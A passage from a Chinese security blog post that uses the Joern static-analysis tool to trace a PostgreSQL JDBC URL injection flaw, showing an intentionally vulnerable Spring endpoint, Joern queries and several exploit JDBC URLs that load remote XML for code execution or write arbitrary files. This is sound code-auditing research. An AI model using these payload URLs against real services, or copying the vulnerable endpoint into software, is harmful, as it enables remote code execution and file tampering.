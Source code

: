 ```
  @RequestMapping("/postgresql")  public void postgresql(String jdbcUrlBase64) throws Exception{      byte[] b = java.util.Base64.getDecoder().decode(jdbcUrlBase64);      String jdbcUrl = new String(b);      log.info(jdbcUrl);      DriverManager.getConnection(jdbcUrl);  }
```  
  
其实漏洞点的Joern的公式特别简单，说白了就是**只要jdbc的连接链接可控**就行了。  
```
def source = cpg.method.where(_.annotation.name(".*Mapping")).parameterdef sink = cpg.call.name("getConnection")
```  
  
直接寻找source和sink之间的数据流  
```
sink.reachableByFlows(source).p
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroG8QSpd8KybJfTr0UMK5FwSZ0xlCTLaIDcwqchhmCE70zFC4nfu5Mg6A/640?wx_fmt=png "")  
  
可以发现我们找到了包括目标在内的5条数据流，这里的第一个问题是，我们没法确定**jdbc是否支持postgreSQL**来作为数据库。  
  
在确定了**入口可控**之后，**理论上配合组件版本**其实我们就可以判断代码中是否存在该问题了，但我们并没有这个数据。  
## for PostgreSQL code  
  
当然在静态分析的层面，我们需要从代码的角度验证漏洞存在，我们遇到的第二个问题自然是**利用链的问题**，所以我们需要直接去**分析postgresql的组件代码**。  
```
importCode("D:/program/java_pro/postgresql-42.3.1.jar", "postgresql")
```  
  
当我们可控jdbc的连接的时候，我们就可以通过**构造类似的请求来调用不同类的方法**来实现我们想要的结果。  
```
# 命令执行jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://test.joychou.org/1.xml# 配合FileOutputStream操作文件jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=java.io.FileOutputStream&socketFactoryArg=test.txt# sslfactory&sslfactroyarg，任意代码执行jdbc:postgresql://127.0.0.1:5432/test/?sslfactory=org.spring.framework.context.support.ClassPathXmlApplicationContext&sslfactoryarg=http://test.joychou.org/1.xml# loggerLevel&loggerFile，任意文件写jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=debug&loggerFile=test.txt&test
```  
  
这里具体的利用链我们就不重复讲了，可以直接参考上面的链接，重要的是**我们怎么在joern中复现这个问题。**  
  
我们拿**第一个漏洞socketFactory&socketFactoryArg的利用链**作为目标来看看  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroGicq6PaNL3wxEzcibnicKSqCnVQ367JqiaQIsz6JcpDjzom2hDzNmKouibWA/640?wx_fmt=png "")  
  
从getConnection方法处，j**dbc会根据不同的请求分发至不同的组件**。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroGI7r7UCQ5ZJe9ibI7Z72G1NIhkX7sNbqjC6244rjpslVVZNqTMVHCKSA/640?wx_fmt=png "")  
  
**从connect方法一路跟进org.postgresql的代码**当中，**链接之后的参数会被拆解为字典**然后分别进入不同的配置中，也就是说等于到url这里我们就是可控的，也就是作为source，**进到包里的这个入口是connect方法**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroG0iaJAdAnXkoRqQkxZ1GI1wkbw2mUAvcLbyjlxeHibWzw4w8k2GO92a1g/640?wx_fmt=png "")  
```
def source = cpg.method.name("connect")
```  
  